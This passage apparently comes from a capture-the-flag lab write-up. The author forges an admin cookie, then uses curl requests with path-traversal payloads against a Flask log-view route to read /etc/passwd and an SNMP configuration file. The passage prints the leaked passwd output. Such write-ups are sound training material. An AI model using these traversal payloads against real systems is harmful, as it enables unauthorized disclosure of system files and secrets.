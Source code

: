 Editing the cookie in our browser will give us access as admin! Yay! Now we can use those sweet Flask routes that we were unable to use before, such as:

![image-20201103001310789](/assets/img/image-20201103001310789.png)

Let's curl a little:

```bash
curl -X POST --cookie "$ADMIN_COOKIE" --data "logfile=../../../../../etc/passwd" "http://10.10.10.195/admin/log/view"
...
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
user:x:1000:1000:user:/home/user:/bin/bash
web:x:1001:1001:::/bin/false
Debian-snmp:x:111:113::/var/lib/snmp:/bin/false
...
```

A good old LFI reveals a user named `Debian-snmp`, after some research on "SNMP", and after getting to know that it is a network layer protocol with some configuration files and custom commands, and knowing that we can inject and trigger some commands knowing a certain security string. That security string is saved in the config files... So, let's access them with:

```bash
curl -X POST --cookie "$ADMIN_COOKIE" --data "logfile=../../../../../etc/snmp/snmpd.conf" "http:
//10.10.10.195/admin/log/view"
```
